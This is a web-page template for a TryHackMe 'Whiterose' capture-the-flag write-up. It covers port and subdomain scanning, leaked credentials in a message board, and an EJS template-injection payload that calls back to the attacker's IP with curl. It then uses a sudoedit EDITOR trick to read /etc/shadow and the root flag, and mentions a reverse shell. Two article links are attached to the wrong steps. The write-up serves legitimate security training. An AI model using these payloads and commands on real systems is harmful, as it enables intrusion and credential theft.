{% from "console.html" import console %}
{% from "image.html" import image %}
{% from "text.html" import text %}
{% from "code.html" import code %}
{% from "list.html" import list %}
{% from "link.html" import link %}
{% from "header.html" import header %}
{% from "navigational.html" import navi %}

<div id="imageModal" class="transition-opacity ease-in-out duration-200 z-50 fixed inset-0 bg-black bg-opacity-75 flex justify-center items-center hidden opacity-0" onclick="closeModal()">
    <img class="max-w-full max-h-full object-contain" id="modalImage" />
</div>

{{link("https://tryhackme.com/r/room/whiterose", "https://tryhackme.com/r/favicon.png", "Whiterose")}}

{{header("Enumeration", "enumeration")}}

{{text("We begin by performing a port scan.")}}

{{console("nmap -T5 -p- 10.10.103.231", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-09 10:19 EST
Warning: 10.10.103.231 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.103.231
Host is up (0.086s latency).
Not shown: 65151 closed tcp ports (reset), 382 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 300.50 seconds")}}

{{text("Only two ports are open:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Navigating to <code class='bg-gray-300 rounded-md px-1'>http://10.10.103.231</code> redirects to <code class='bg-gray-300 rounded-md px-1'>http://cyprusbank.thm</code>, so we add an entry for this domain in the <code class='bg-gray-300 rounded-md px-1'>/etc/hosts</code> file.") }}

{{text("Now, visiting <code class='bg-gray-300 rounded-md px-1'>http://cyprusbank.thm</code> displays the following page.")}}

{{image("../../static/images/Whiterose/000001.jpg")}}

{{text("Running Gobuster for directory enumeration reveals no additional directories, so we proceed with subdomain enumeration.")}}

{{console("ffuf -u 'http://cyprusbank.thm/' -H 'Host: FUZZ.cyprusbank.thm' -w /usr/share/wordlists/dirb/common.txt -fw 1", "...
Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 107ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 106ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 107ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 73ms]
:: Progress: [4614/4614] :: Job [1/1] :: 531 req/sec :: Duration: [0:00:12] :: Errors: 0 ::") }}

{{text("Adding the subdomains <code class='bg-gray-300 rounded-md px-1'>www</code> and <code class='bg-gray-300 rounded-md px-1'>admin</code> to our hosts file, we find that only <code class='bg-gray-300 rounded-md px-1'>admin</code> leads to something interesting.")}}

{{image("../../static/images/Whiterose/000003.jpg")}}

{{header("Logging in as Olivia Cortez", "logging-in-as-olivia-cortez")}}

{{text("Using the credentials <code class='bg-gray-300 rounded-md px-1'>Olivia Cortez:olivi8</code> provided in the challenge, we log in successfully.")}}

{{text("The dashboard displays recent transactions and user accounts, including a user named <code class='bg-gray-300 rounded-md px-1'>Tyrell Wellick</code>, whose phone number is required.")}}

{{image("../../static/images/Whiterose/000004.jpg")}}

{{text("Unable to retrieve relevant information from <code class='bg-gray-300 rounded-md px-1'>search</code> and lacking permissions for <code class='bg-gray-300 rounded-md px-1'>settings</code>, we proceed to <code class='bg-gray-300 rounded-md px-1'>messages</code>.")}}

{{header("Logging in as Gayle Bev", "logging-in-as-gayle-bev")}}

{{text("The messages page is an administrator message board.")}}

{{image("../../static/images/Whiterose/000005.jpg")}}

{{text("Though the messages contain nothing useful, we notice a URL parameter <code class='bg-gray-300 rounded-md px-1'>c</code> that might allow us to do something.")}}

{{text("Posting a new message removes the previous one, so we can assume this parameter is used to control how many messages get displayed. Adjusting <code class='bg-gray-300 rounded-md px-1'>c=5</code> to <code class='bg-gray-300 rounded-md px-1'>c=100</code> displays prior messages.")}}

{{image("../../static/images/Whiterose/000006.jpg")}}

{{text("This reveals new credentials <code class='bg-gray-300 rounded-md px-1'>Gayle Bev:[REDACTED]</code>, which grant us access to <code class='bg-gray-300 rounded-md px-1'>Tyrell Wellick's</code> phone number, marking the first flag.")}}

{{header("Reverse Shell", "reverse-shell")}}

{{text("Navigating further, we now have access to the <code class='bg-gray-300 rounded-md px-1'>settings</code> page.")}}

{{image("../../static/images/Whiterose/000007.jpg")}}

{{text("On the settings page, we find an interface for changing passwords by username. Initial SQL injection attempts fail, but error messages in <strong>Burp</strong> indicate the use of the <strong>EJS</strong> templating engine.")}}

{{image("../../static/images/Whiterose/000008.jpg")}}

{{text("We explore potential server-side template injection (<strong>SSTI</strong>) vulnerabilities in EJS, guided by an article.")}}

{{link("https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis", "https://www.vicarius.io/vsociety/favicon.svg", "CVE-2023-22809: Sudoedit Bypass - Analysis")}}

{{text("Using a crafted payload, <code class='bg-gray-300 rounded-md px-1'>name=test&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.9.2.82');s</code>, we confirm SSTI exploitation.")}}

{{image("../../static/images/Whiterose/000009.jpg")}}

{{text("Our next objective is to gain a reverse shell.")}}

{{text("After trying several reverse shell payloads from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code>, a base64-encoded BusyBox reverse shell proves successful.")}}

{{text("Setting up a netcat listener, we execute the payload through bash to gain shell access.")}}

{{header("Privilage Escalation", "priv-esc")}}

{{image("../../static/images/Whiterose/000010.jpg")}}

{{text("With shell access, we stabilize the connection for smoother navigation.")}}

{{image("../../static/images/Whiterose/000011.jpg")}}

{{text("Inside <code class='bg-gray-300 rounded-md px-1'>/home/web</code>, we retrieve the <code class='bg-gray-300 rounded-md px-1'>user.txt</code> flag.")}}

{{image("../../static/images/Whiterose/000012.jpg")}}

{{text("While looking around for privilage escalation vectors, we run <code class='bg-gray-300 rounded-md px-1'>sudo -l</code> and see that we are able to run <code class='bg-gray-300 rounded-md px-1'>sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm</code> as the root user.")}}

{{text("We can't find anything about <code class='bg-gray-300 rounded-md px-1'>sudoedit</code> on <code class='bg-gray-300 rounded-md px-1'>https://gtfobins.github.io/</code>, but we come across this article.")}}

{{link("https://github.com/mde/ejs/issues/720", "https://github.com/favicon.ico", "EJS, Server side template injection ejs@3.1.9")}}

{{text("By using <code class='bg-gray-300 rounded-md px-1'>export EDITOR='vi -- /etc/shadow'</code> we will make <code class='bg-gray-300 rounded-md px-1'>vi</code> open the <code class='bg-gray-300 rounded-md px-1'>/etc/shadow</code> file when <code class='bg-gray-300 rounded-md px-1'>sudoedit</code> is used.")}}

{{text("We now run <code class='bg-gray-300 rounded-md px-1'>sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm</code> and are able to read the <code class='bg-gray-300 rounded-md px-1'>/etc/shadow</code>")}}

{{console("sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm", "root:[REDACTED]
daemon:*:18885:0:99999:7:::
bin:*:18885:0:99999:7:::
sys:*:18885:0:99999:7:::
...")}}

{{text("Let's modify the <strong>export</strong> to read our flag.")}}

{{text("By using <code class='bg-gray-300 rounded-md px-1'>export EDITOR='vi -- /root/root.txt'</code> and re-running the command, we should be able to read our flag.")}}

{{console("sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm", "THM{[REDACTED]}
~                                                                               
~                                                                               
~                                                                               
...")}}

<script>
    function activate(element) {
        document.querySelectorAll("ul li").forEach((item) => {
            item.classList.remove("border-blue-500", "text-blue-400");
            item.classList.add("border-gray-400", "text-gray-700");
        });

        element.classList.remove("border-gray-400", "text-gray-700");
        element.classList.add("border-blue-500", "text-blue-400");
    }

document.addEventListener("DOMContentLoaded", () => {
    const options = {
        root: null,
        rootMargin: "0% 0% -75% 0%",
        threshold: 0.1,
    };

    const observer = new IntersectionObserver((entries) => {
        entries.forEach((entry) => {
            console.log(entry)
            const navItem = document.querySelector(`a[href="#${entry.target.id}"]`)?.parentElement;

            if (entry.isIntersecting && entry.target != navItem) {
                navItem?.classList.add("border-blue-500", "text-blue-400");
                navItem?.classList.remove("border-gray-400", "text-gray-700");
            } else {
                navItem?.classList.remove("border-blue-500", "text-blue-400");
                navItem?.classList.add("border-gray-400", "text-gray-700");
            }
        });
    }, options);

    const sections = document.querySelectorAll("section[id]");
    console.log(sections)
    sections.forEach((section) => {
        observer.observe(section);
    });

});

    function openModal(imageSrc) {
        const modal = document.getElementById("imageModal");
        const modalImage = document.getElementById("modalImage");

        modal.classList.remove("hidden");
        setTimeout(() => {
            modal.classList.remove("opacity-0");
            modal.classList.add("opacity-100");
        }, 1)
        modalImage.src = imageSrc;
    }

    function closeModal() {
        const modal = document.getElementById("imageModal");

        modal.classList.remove("opacity-100");
        modal.classList.add("opacity-0");
        setTimeout(() => {
            modal.classList.add("hidden");
        }, 201);
    }

    function copyCode(button) {
        const codeBlock = button.closest('.code').querySelector('code');
        
        navigator.clipboard.writeText(codeBlock.innerText).then(() => {
            button.innerHTML = `
            <svg class="size-6 text-green-600 w-8 h-8 hover:bg-gray-300 rounded" xmlns="http://www.w3.org/2000/svg" fill="none" viewBox="0 0 24 24" stroke-width="1.5" stroke="currentColor">
                <path stroke-linecap="round" stroke-linejoin="round" d="m4.5 12.75 6 6 9-13.5" />
            </svg>
            `;
            setTimeout(() => {
                button.innerHTML = `
                    <svg class="w-8 h-8 text-gray-800 dark:text-white hover:bg-gray-300 rounded copyButton" xmlns="http://www.w3.org/2000/svg" width="24" height="24" fill="currentColor" viewBox="0 0 24 24">
                        <path fill-rule="evenodd" d="M18 3a2 2 0 0 1 2 2v10a2 2 0 0 1-2 2h-1V9a4 4 0 0 0-4-4h-3a1.99 1.99 0 0 0-1 .267V5a2 2 0 0 1 2-2h7Z" clip-rule="evenodd"/>
                        <path fill-rule="evenodd" d="M8 7.054V11H4.2a2 2 0 0 1 .281-.432l2.46-2.87A2 2 0 0 1 8 7.054ZM10 7v4a2 2 0 0 1-2 2H4v6a2 2 0 0 0 2 2h7a2 2 0 0 0 2-2V9a2 2 0 0 0-2-2h-3Z" clip-rule="evenodd"/>
                    </svg>
                `;
            }, 2000);
        });
    }
</script>
